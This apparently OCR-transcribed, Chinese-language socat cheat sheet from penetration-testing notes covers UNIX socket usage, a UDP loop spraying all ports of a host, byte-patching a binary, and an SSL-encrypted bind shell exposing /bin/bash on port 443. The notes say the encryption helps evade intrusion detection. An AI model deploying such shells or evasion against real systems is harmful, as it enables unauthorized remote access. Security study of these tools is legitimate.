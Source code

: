 *创建UNIX套接字*

**服务端**

**socat UNIX-LISTEN:./test.sock,fork -**

**客户端**

**socat UNIX-CONNECT:./test.sock -**

> **UNIX 域套接字（Unix Domain Socket）是一种用于在同一台计算机上不同进程之间进行通信的机制，类似于网络套接字，但不涉及网络协议和网络通信。它们在本地文件系统上创建，用于在同一主机上的进程之间传递数据，而无需通过网络堆栈进行通信。**
>
> **虽然因特网域套接字可用于同一目的，但****UNIX域套接字的效率更高**。**UNIX域套接字仅仅复制数据**；它们并不执行协议处理，不需要添加或删除网络报头，无需计算检验和，不要产生顺序号，无需发送确认报文。

*UDP 全端口任意发包*

**for port in{1..65535}; do echo 'aaaaa'| socat - UDP4-DATAGRAM:192.168.110.129:$port; sleep 0.1;done**

*socat作为二进制编辑器*

`echo -e "\0\14\0\0\c"|socat -u file:/usr/bin/squid.exe,seek,seek=0x00074420`

**-u 表示单向传输   seek=0x00074420  代表在squid.exe中的偏移量  等于在指定偏移量处写入字节**

**socat还能做简单的web服务器(了解一下有这个功能就行)**

**socat 做透明代理**

***socat 加密绑定shell***

**要将加密添加到绑定shell中，我们将依赖于安全套接字Layer证书。 这一级别的加密将有助于规避入侵检测系统(IDS)，并将有助于隐藏我们正在收发的敏感数据。**

**openssl工具生成自签名证书：**

`openssl req -newkey rsa:2048 -nodes -keyout bind_shell.key -x509 -days 36 2 -out bind_shell.crt`

**req: 启动新的证书签名请求**

**-newkey：生成一个新的私钥**

**-RSA:2048:使用具有2,048位密钥长度的RSA加密。 **

**-nodes：存储私钥而不提供密码短语保护**

**-keyout：将密钥保存到文件**

**-x509:输出自签名证书而不是证书请求**

**-days：以days为单位设置有效期**

**-out：将证书保存到文件**

`sudo socat OPENSSL-LISTEN:443,cert=bind_shell.pem,verify=0,fork EXEC:/bin /bash` 开放端口

**我们将使用-在stdio和远程主机之间传输数据，OpenSSL在10.11.0.4:443上建立到Alice侦听器的远程SSL连接，verify=0禁用SSL证书验证：**

`socat - OPENSSL:10.11.0.4:443,verify=0`  连接端口

### powershell
